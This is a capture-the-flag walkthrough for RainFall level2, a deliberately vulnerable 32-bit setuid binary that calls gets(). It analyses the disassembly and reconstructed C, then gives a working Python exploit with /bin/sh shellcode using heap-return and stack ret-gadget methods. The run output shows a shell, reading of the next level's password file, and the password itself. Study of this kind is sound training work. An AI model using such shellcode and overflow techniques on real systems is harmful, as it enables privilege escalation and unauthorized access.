# Walkthrough
## Program type:
* Running the command `file ./level2` we see the file is 32-bit ELF
executable.
```
level2@RainFall:~$ file ./level2
./level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```
* Running the command `checksec --file ./level2, we see that the stack is
executable (NX disabled).
```
level2@RainFall:~$ checksec --file ./level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level2
```
## Content:
```
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave
 804853e:	c3                   	ret

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave
 804854b:	c3                   	ret
```
* There's two function [`main`, `p`], `main` calls `p` and return.

* `p` use `fflush(3)` to clear the stdout and then fills a buffer with size 
56 bytes (Again, `gets(3)` is vulnerable because it doesn't have a stopping 
condition other than '\0').

* An if condition is used to check if the return address of the `main` 
function starts with `0xb`, this could be considered as a way to check if the
`saved-eip` of the `p` function was overwritten using `gets(3)` with something 
else other than the address that was meant to be there (the return address 
pushed on the stack from the function `main`, something like [this](https://gcc.gnu.org/onlinedocs/gcc/Return-Address.html)).

* If the `saved-eip` is changed, it `printf(1)` the changed address and calls 
`exit(3)`. Otherwise, it `puts(3)` the content of the buffer and duplicate it 
with `strdup(3)` (for no particulare reason), which means the heap now 
contains the content of the buffer.
## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

void	p(void)
{
	int		some_useless_variable;
	void	*return_addr; // Big chance the type of this variable is uint64_t and the previous variable does not exist
	char	buffer[56];
	
	fflush(stdin);
	gets(buffer);

	// 0 makes the function return the return_address of the current function.
	return_addr = __builtin_return_address(0);
	if (return_addr & 0xb0000000 != 0xb0000000)
	{
		printf("(%p)\n", return_addr);
		exit(1);
	}
	puts(buffer);
	strdup(buffer);
}

int	main()
{
	p();
	return (0);
}

```
## Solution:
* There's two ways to exploit this binary, both of'em are buffer overflows:
	* `strdup(3)` duplicates the buffer on the heap, the buffer contains a 
	shellcode that spawns a shell when it's executed and a address of the 
	duplicate in the heap that overwrite the saved-eip. Since the address of 
	the heap don't start with `0xb` we pass the mask validation and when the ret 
	instruction executes our shellcode.

	* Meanwhile, a normal stack buffer overflow won't work directly because of 
	the mask validation, so we'll push two addresses on the stack and calling 
	the return instruction twice, so when the mask validation occures, it will 
	find a correct address (not starting with `0xb`) and the second address will 
	jump to a memory area in the stack where our shellcode lies.

* Now lets write the python script that will enable us to access the shell using that vulnerability:
```python
import sys
import struct

shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"

def heapExp():
    tail = "\x00" * (80 - len(shellcode))
    new_eip = struct.pack('I', 0x0804a008)
    print shellcode + tail + new_eip

def stackExp():
    head = "\x90" * 80
    tail = "\x90" * 100
    gadget_addr = struct.pack('I', 0x0804853e)
    slide_addr = struct.pack('I', 0xbffff751)
    print head + gadget_addr + slide_addr + tail + shellcode

if __name__ == "__main__":
    if len(sys.argv) > 1:
        if sys.argv[1] == "stack":
            stackExp()
        if sys.argv[1] == "heap":
            heapExp()
```
* Running the exploit give us access to an unauthorized shell:
```
level2@RainFall:~$ (python exp.py heap; cat -) | ./level2
�^�1��F�F
         �
          ���V
               ̀1ۉ�@̀�����/bin/sh
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
level2@RainFall:~$ (python exp.py stack; cat -) | ./level2
����������������������������������������������������������������>������������>Q��������������������������������������������������������������������������������������������������������^�1��F�F
                                                                        �
                                                                         ���V
                                                                              ̀1ۉ�@̀�����/bin/sh
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
